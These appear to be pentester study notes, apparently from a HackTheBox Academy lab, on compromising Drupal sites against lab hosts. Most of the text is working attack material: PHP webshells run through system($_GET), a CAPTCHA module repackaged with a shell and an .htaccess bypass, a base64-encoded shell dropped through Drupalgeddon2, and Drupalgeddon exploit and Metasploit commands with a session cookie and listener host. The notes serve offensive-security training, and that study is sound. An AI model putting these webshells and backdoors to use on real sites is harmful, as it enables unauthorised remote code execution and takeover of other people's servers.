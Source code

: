 ### Footprinting + Enumeration
```bash
droopescan scan drupal -u http://drupal.inlanefreight.local
```

```bash
curl -s http://drupal.inlanefreight.local | grep Drupal
curl -s http://drupal.inlanefreight.local/node/1
```
> [!NOTE] Note
> Not every Drupal installation will look the same or display the login page or even allow users to access the login page from the internet.

Trying this against the latest Drupal version will give a 404
```bash
curl -s http://drupal-acc.inlanefreight.local/CHANGELOG.txt | grep -m2 ""
```

### Exploitation
##### RCE before version 8.0
In older versions of Drupal (before version 8), it was possible to log in as an admin and enable the `PHP filter` module, which "Allows embedded PHP code/snippets to be evaluated."
![](https://academy.hackthebox.com/storage/modules/113/drupal_php_module.png)

`Save configuration` -> `Content` -> `Add content` -> `Basic page`

Slap this bad boy in there (**avoid driveby shooters by using md5 hash**) and make sure the`Text format` drop-down is set to `PHP code`
```php
<?php
system($_GET['dcfdd5e021a869fcc6dfaef8bf31377e']);
?>
```
Node number may vary
```bash
curl -s http://drupal-qa.inlanefreight.local/node/3?dcfdd5e021a869fcc6dfaef8bf31377e=id | grep uid | cut -f4 -d">"
```
##### RCE 8.0 and up
From version 8 onwards, the [PHP Filter](https://www.drupal.org/project/php/releases/8.x-1.1) module is not installed by default. To leverage this functionality, we would have to install the module ourselves. Since we would be changing and adding something to the client's Drupal instance, we may want to check with them first.
```bash
wget https://ftp.drupal.org/files/projects/php-8.x-1.1.tar.gz
```

Install the plugin (may be under the `Extend menu` depending on the Drupal version)

`Administration` -> `Reports` -> `Available updates` -> `Browse` -> Install

From there we can click on `Content` and create a new basic page, similar to how we did in the Drupal 7. **Be sure to select `PHP code` from the `Text format` dropdown**

##### Uploading a Backdoor Module
Drupal allows users with appropriate permissions to upload a new module. A backdoored module can be created by adding a shell to an existing module. Modules can be found on the drupal.org website. Let's pick a module such as [CAPTCHA](https://www.drupal.org/project/captcha). 
```bash
wget --no-check-certificate  https://ftp.drupal.org/files/projects/captcha-8.x-1.2.tar.gz
tar xvf captcha-8.x-1.2.tar.gz
```
Create a webshell
```php
<?php
system($_GET[fe8edbabc5c5c9b7b764504cd22b17af]);
?>
```
Create a `.htaccess` file to give ourselves access to the folder. This is necessary as Drupal denies direct access to the /modules folder.
```html
<IfModule mod_rewrite.c>
RewriteEngine On
RewriteBase /
</IfModule>
```
Copy both files to the captcha folder and tar it up
```bash
mv shell.php .htaccess captcha
tar cvf captcha.tar.gz captcha/
```
Install: `Manage` -> `Extend` -> `+ Install new module` -> `Upload and Install`
Exploit
```bash
curl -s drupal.inlanefreight.local/modules/captcha/shell.php?fe8edbabc5c5c9b7b764504cd22b17af=id
```

##### Known Vulnerabilities
###### [Drupalgeddon1](https://www.exploit-db.com/exploits/34992) 
This allows us to add a new admin user from an unauthenticated standpoint
```bash
python2.7 drupalgeddon.py -t http://drupal-qa.inlanefreight.local -u adot -p pwnd
```

###### [Drupalgeddon2](https://www.exploit-db.com/exploits/44448)
This allows for RCE
```bash
python3 drupalgeddon2.py 

curl -s http://drupal-dev.inlanefreight.local/hello.txt
```
Update script payload
```php
echo '<?php system($_GET[fe8edbabc5c5c9b7b764504cd22b17af]);?>' | base64
echo "PD9waHAgc<snip>" | base64 -d | tee adot8.php
```

```bash
curl http://drupal-dev.inlanefreight.local/adot8.php?fe8edbabc5c5c9b7b764504cd22b17af=id
```

##### [Drupalgeddon3](https://github.com/rithchard/Drupalgeddon3)
This is an authenticated remote code execution vulnerability that affects [multiple versions](https://www.drupal.org/sa-core-2018-004) of Drupal core. It requires a user to have the ability to delete a node. We can exploit this using Metasploit, **but we must first log in and obtain a valid session cookie**.
```bash
exploit/multi/http/drupal_drupageddon3
exploit/multi/http/drupal_drupageddon

msf6 exploit(multi/http/drupal_drupageddon3) > set rhosts 10.129.42.195
msf6 exploit(multi/http/drupal_drupageddon3) > set VHOST drupal-acc.inlanefreight.local   
msf6 exploit(multi/http/drupal_drupageddon3) > set drupal_session SESS45ecfcb93a827c3e578eae161f280548=jaAPbanr2KhLkLJwo69t0UOkn2505tXCaEdu33ULV2Y
msf6 exploit(multi/http/drupal_drupageddon3) > set DRUPAL_NODE 1
msf6 exploit(multi/http/drupal_drupageddon3) > set LHOST 10.10.14.15
msf6 exploit(multi/http/drupal_drupageddon3) > show options 
```


Drupal core has suffered from a few serious remote code execution vulnerabilities, each dubbed `Drupalgeddon`. At the time of writing, there are 3 Drupalgeddon vulnerabilities in existence.

- [CVE-2014-3704](https://www.drupal.org/SA-CORE-2014-005), known as Drupalgeddon, affects versions 7.0 up to 7.31 and was fixed in version 7.32. This was a pre-authenticated SQL injection flaw that could be used to upload a malicious form or create a new admin user.
    
- [CVE-2018-7600](https://www.drupal.org/sa-core-2018-002), also known as Drupalgeddon2, is a remote code execution vulnerability, which affects versions of Drupal prior to 7.58 and 8.5.1. The vulnerability occurs due to insufficient input sanitization during user registration, allowing system-level commands to be maliciously injected.
    
- [CVE-2018-7602](https://cvedetails.com/cve/CVE-2018-7602/), also known as Drupalgeddon3, is a remote code execution vulnerability that affects multiple versions of Drupal 7.x and 8.x. This flaw exploits improper validation in the Form API.

